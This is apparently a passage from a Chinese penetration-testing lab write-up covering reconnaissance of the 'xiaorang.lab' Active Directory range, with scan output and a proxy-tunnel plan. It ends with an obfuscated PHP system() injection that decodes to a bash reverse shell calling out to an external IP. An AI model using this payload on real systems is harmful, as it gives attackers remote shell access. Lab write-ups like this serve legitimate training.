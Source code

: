 \[*\]172.22.15.24  
\[->\]XR-WIN08  
\[->\]172.22.15.24  
\[*\] NetInfo:  
\[*\]172.22.15.18  
\[->\]XR-CA  
\[->\]172.22.15.18  
\[*\] NetBios: 172.22.15.35 XIAORANG\\XR-0687  
\[*\] NetBios: 172.22.15.13 \[+\]DC XR-DC01.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] 172.22.15.13 (Windows Server 2016 Standard 14393)  
\[*\] NetBios: 172.22.15.24 WORKGROUP\\XR-WIN08 Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
\[*\] NetBios: 172.22.15.18 XR-CA.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] WebTitle: [http://172.22.15.26](http://172.22.15.26/) code:200 len:39962 title:XIAORANG.LAB  
\[*\] WebTitle: [http://172.22.15.18](http://172.22.15.18/) code:200 len:703 title:IIS Windows Server  
\[*\] WebTitle: [http://172.22.15.24](http://172.22.15.24/) code:302 len:0 title:None 跳转 url: [http://172.22.15.24/www](http://172.22.15.24/www)  
\[+\] [http://172.22.15.18](http://172.22.15.18/) poc-yaml-active-directory-certsrv-detect  
\[\*\] WebTitle: [http://172.22.15.24/www/sys/index.php](http://172.22.15.24/www/sys/index.php) code:200 len:135 title:None  
:::  
大致分析一下，这里`172.22.15.26`为此靶标地址。`172.22.15.24`可能存在永痕之蓝漏洞

```bash
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687               
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393  ## 域控
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393 
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

这里我们配合`kali`配合搭建一个`nps代理隧道`  
注意此处：Kali 是作为服务端 `nps`、靶标为客户端 `npc`链接  
靶标是出网的..

```bash
1=system('%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68');
%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
## 直接弹 shell
```
